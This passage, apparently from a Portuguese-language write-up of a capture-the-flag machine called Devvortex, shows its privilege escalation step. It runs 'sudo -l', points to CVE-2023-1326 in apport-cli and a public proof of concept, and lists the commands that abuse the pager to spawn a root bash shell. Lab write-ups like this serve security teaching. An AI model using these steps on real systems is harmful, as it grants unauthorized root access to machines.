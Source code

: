 ## **Escalação de privilégio**

```shell
logan@devvortex:~$ sudo -l
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
logan@devvortex:~$ 
```
{: .nolineno }

Pesquisei como escalar privilégio com apport-cli
Encontrei `CVE-2023-1326-PoC` onde afeta a versão 2.26.0 ou menores.
<https://github.com/diego-tella/CVE-2023-1326-PoC>

`logan@devvortex:~$ sudo /usr/bin/apport-cli --version
2.20.11`

Precisamos de um arquivo de dump .crash pra poder abusar da vulnerabilidade, para gerar eu usei ps aux escolhi um pid aleatório e executei o comando pra gerar.
Caso der algum erro escolha outro pid.

- `sudo /usr/bin/apport-cli -pid 2929 --save xd.crash`
- `sudo /usr/bin/apport-cli -c xd.crash`
- `Aperte V`
- `!/bin/bash`
- `Aperte Enter`   
  
![alt text](/assets/img/devvortex11.png)